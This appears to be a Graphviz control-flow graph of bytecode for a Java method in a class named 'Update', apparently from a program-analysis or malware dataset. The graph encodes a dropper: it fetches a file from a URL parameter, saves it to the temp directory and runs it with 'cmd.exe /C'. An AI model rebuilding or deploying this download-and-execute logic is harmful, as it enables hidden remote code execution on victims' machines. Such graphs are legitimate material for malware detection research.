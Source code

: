 digraph "" {
    "r0 := @this: Update"
    "load.r r0"
    "r0 := @this: Update"->"load.r r0";
    "push \"name_of_the_file\""
    "load.r r0"->"push \"name_of_the_file\"";
    "virtualinvoke <Update: java.lang.String getParameter(java.lang.String)>"
    "push \"name_of_the_file\""->"virtualinvoke <Update: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Update: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "push \"java.io.tmpdir\""
    "store.r r1"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r2";
    "new java.net.URL"
    "store.r r2"->"new java.net.URL";
    "store.r $r6"
    "new java.net.URL"->"store.r $r6";
    "load.r $r6"
    "store.r $r6"->"load.r $r6";
    "load.r $r6"->"load.r r0";
    "push \"path_to_url\""
    "load.r r0"->"push \"path_to_url\"";
    "push \"path_to_url\""->"virtualinvoke <Update: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Update: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "goto load.r $r6"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"goto load.r $r6";
    "goto load.r $r6"->"load.r $r6";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "load.r $r6"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "store.r r0"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"store.r r0";
    "goto load.r r0"
    "store.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "load.r r0"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r29"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r29";
    "goto new java.io.FileOutputStream"
    "store.r r29"->"goto new java.io.FileOutputStream";
    "new java.io.FileOutputStream"
    "goto new java.io.FileOutputStream"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r r0";
    "store.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "goto push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"goto push 1024";
    "push 1024"
    "goto push 1024"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r33"
    "newarray"->"store.r r33";
    "load.r r29"
    "store.r r33"->"load.r r29";
    "load.r r33"
    "load.r r29"->"load.r r33";
    "push 0"
    "load.r r33"->"push 0";
    "push 0"->"load.r r33";
    "arraylength"
    "load.r r33"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $r6"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $r6";
    "load.i $r6"
    "store.i $r6"->"load.i $r6";
    "push -1"
    "load.i $r6"->"push -1";
    "ifcmpeq.i goto load.r r29"
    "push -1"->"ifcmpeq.i goto load.r r29";
    "ifcmpeq.i goto load.r r29"->"load.r r0";
    "load.r r0"->"load.r r33";
    "load.r r33"->"push 0";
    "push 0"->"load.i $r6";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $r6"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r29"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r29";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"load.r r29";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r29"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r $r6";
    "push 3"
    "store.r $r6"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push \"cmd.exe\""
    "push 0"->"push \"cmd.exe\"";
    "arraywrite.r"
    "push \"cmd.exe\""->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "push \"/C\""
    "push 1"->"push \"/C\"";
    "push \"/C\""->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "push 2"
    "load.r r0"->"push 2";
    "push 2"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r6";
    "load.r $r6"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "ifcmpeq.i goto load.r r29"->"goto load.r r29";
    "virtualinvoke <java.io.FileNotFoundException: void printStackTrace()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"virtualinvoke <java.io.FileNotFoundException: void printStackTrace()>";
    "virtualinvoke <java.io.FileNotFoundException: void printStackTrace()>"->"return";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"return";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"return";
    "virtualinvoke <java.net.MalformedURLException: void printStackTrace()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.MalformedURLException: void printStackTrace()>";
    "virtualinvoke <java.net.MalformedURLException: void printStackTrace()>"->"return";
}
